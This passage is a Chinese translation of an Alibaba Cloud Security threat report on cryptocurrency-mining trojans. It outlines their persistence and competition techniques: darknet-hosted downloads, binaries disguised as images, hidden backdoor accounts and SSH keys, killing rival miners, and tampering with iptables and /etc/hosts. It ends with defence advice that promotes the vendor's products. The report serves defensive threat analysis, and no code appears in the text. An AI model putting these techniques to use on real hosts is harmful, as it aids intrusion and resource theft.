

*   ibus C&C 模块中的恶意代码



# 黑暗网络

从 2018 年底开始，加密货币挖矿木马开始频繁使用暗网托管恶意文件。Darknet 在恶意软件中也很流行，因为它支持匿名通信。下图显示了 Watchbog 蠕虫如何使用暗网地址下载恶意文件。

*   Watchbog 蠕虫通过使用暗网地址下载恶意文件。



# 文件类型伪装

为了防止追踪，黑客更喜欢在免费的公共网站上托管恶意文件。他们需要将恶意外壳和二进制文件伪装成图像，以避免被检测到。

*   将二进制文件和外壳文件伪装成图像文件是很常见的。



# 后门账户

根据我们的监测，加密货币挖矿木马除了执行常规的驻留操作外，还会在主机上留下后门账号。在这种情况下，即使木马被清除，黑客也可以通过使用后门帐户重新入侵。

*   黑客添加后门帐户管理员并隐藏帐户。



*   看门狗添加后门账号的 SSH 密钥。



# 在市场中生存——资源竞争技术

除了对抗安全软件，加密货币挖矿僵尸网络还面临同业竞争。毕竟 CPU 资源有限，一台设备容不下两匹“马”。

# 扼杀竞争过程

这基本上是一个加密货币挖矿木马的常见操作。加密货币挖掘木马根据进程的指纹库确定其他加密货币挖掘进程，或者直接杀死 CPU 使用率高的进程。

*   下图显示了与 Kerberods 争夺资源的进程的指纹库。



# 修改防火墙

加密货币挖掘木马修改防火墙的 iptables，并禁用易受攻击的服务端口，以阻止其他加密货币挖掘木马。或者，加密货币挖矿木马会禁用常见的挖矿池端口，以阻止竞争对手的加密货币挖矿。

*   下图显示了加密货币挖矿木马如何修改 iptables 配置来争用资源。



# 修改主机

为了争夺资源，加密货币挖矿木马还可能通过修改/etc/hosts 来坑竞争对手的域名和常用挖矿池域名。我们也看到了相应的对策:确定/etc/hosts 是否被修改，重写/etc/hosts。

*   加密货币挖掘木马天坑竞争对手的域名如下:



*   kthrotldsPretender 采取了以下对策:重写主机。



# 使用其他僵尸网络

除了前面常见的竞争手段，利用其他僵尸网络传播加密货币挖矿木马也是一种明智的手段。今年 4 月，systemdMiner 还“借鸡生蛋”——通过入侵 DDGS 的 C&C 中控主机，迅速传播加密货币挖矿木马。

*   Shell 由 systemdMiner 通过使用 DDGS 的中央控制主机交付



# 防御建议

1.  企业需要管理漏洞并及时修复它们。否则，他们很容易成为加密货币挖矿木马的受害者。
2.  我们推荐您使用阿里云安全提供的下一代[云防火墙](https://www.alibabacloud.com/products/cloud-firewall?spm=a2c41.13656330.0.0)。它可以阻止恶意外部连接，并配置智能策略来帮助有效防御入侵。诸如下载、加密货币挖掘和弹回外壳之类的操作都需要恶意的外部连接，不管主机上的攻击者使用了多么先进的混淆技术。云防火墙可以完全切断这些攻击链。为了阻止入侵，用户可以通过定制策略来直接阻止恶意网站。此外，云防火墙独有的虚拟补丁功能可以帮助用户更加灵活、透明地拦截攻击。
3.  定制需求较高的用户可以选择阿里云[托管安全服务](https://www.alibabacloud.com/product/mss?spm=a2c41.13656330.0.0)。在您购买该服务后，经验丰富的安全专家将提供咨询服务，为您量身定制解决方案，并帮助加强您的系统以防止入侵。如果发生入侵，安全专家还可以直接协助解决清除入侵和追踪事件源等问题。该服务适用于对安全要求苛刻的用户或没有安全工程师但希望保证系统安全的企业。

# 原始资料

 [## 学习加密货币挖矿木马的战略战术

### 阿里云安全 2019 年 11 月 6 日 30 由郭微博，昵称桑多。加密货币的价格，如…

www.alibabacloud.com](https://www.alibabacloud.com/blog/learn-the-strategies-and-tactics-of-cryptocurrency-mining-trojans_595518?spm=a2c41.13656330.0.0)